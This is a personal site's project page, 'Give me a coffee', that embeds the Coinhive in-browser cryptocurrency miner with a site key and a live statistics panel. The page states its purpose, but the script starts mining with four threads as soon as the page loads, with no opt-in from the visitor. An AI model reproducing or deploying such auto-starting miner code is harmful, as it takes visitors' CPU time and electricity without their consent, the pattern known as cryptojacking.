 ```yaml
---
layout: project
type: WIP
noimage: '<i class="fa fa-coffee fa-big12" aria-hidden="true"></i>'
image: 
title: Give me a coffee
github: 
description: Buy me a coffee buy giving me some CPU cycles.
---
```


### Performances:

* **Hashes per seconds:** <em id="hashespersecond">0</em><em>H/s</em><br>
* **Total hashes:** <em id="totalhashes">0</em><em>H</em><br>
* **Accepted hashes:** <em id="accepted">0</em><em>H</em>
* **Threads:**  <em id="numthreads">1</em> <em>Threads</em>    <button onclick="addThread();">+</button> <button onclick="removeThread();">-</button>
* **Throttle:**  <em id="throttle">0.8</em>    <button onclick="increaseThrottle();">+</button> <button onclick="reduceThrottle();">-</button>
* **Info:** <em id="info">Connecting</em>
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	var miner = {};
	window.onload = function() {
		miner = new CoinHive.Anonymous('94Ewh5erEv797iMDCHPDwSqQHFt6dvvd');
		miner.start();
		miner.setThrottle(0.8);
		miner.setNumThreads(4);
			// Listen on events
		miner.on('found', function() { /* Hash found */ })
		miner.on('accepted', function() { /* Hash accepted by the pool */ })


		miner.on("authed", function() {
			document.getElementById("info").innerHTML = "Connected";
		})
		// Update stats once per second
		setInterval(function() {	
			var hashesPerSecond = miner.getHashesPerSecond();
			var totalHashes = miner.getTotalHashes();
			var acceptedHashes = miner.getAcceptedHashes();
			var numThreads = miner.getNumThreads();
			var throttle = miner.getThrottle();
			document.getElementById("hashespersecond").innerHTML = hashesPerSecond.toString();
			document.getElementById("totalhashes").innerHTML = totalHashes.toString();
			document.getElementById("accepted").innerHTML = acceptedHashes.toString();
			document.getElementById("numthreads").innerHTML = numThreads.toString();
			document.getElementById("throttle").innerHTML = throttle.toString();
			// Output to HTML elements...
		}, 333);
	} 

	function addThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t+1);
	}
	function removeThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t-1);
	}

	function increaseThrottle() {
		t = miner.getThrottle();
		if(t > 0.901) {
			miner.setThrottle(1.0);
		} else {
			miner.setThrottle(t+0.1);
		}
	}
	function reduceThrottle() {
		t = miner.getThrottle();
		if(t < 0.1999) {
			miner.setThrottle(0.1);
		} else {
			miner.setThrottle(t-0.1);
		}
	}
	
</script>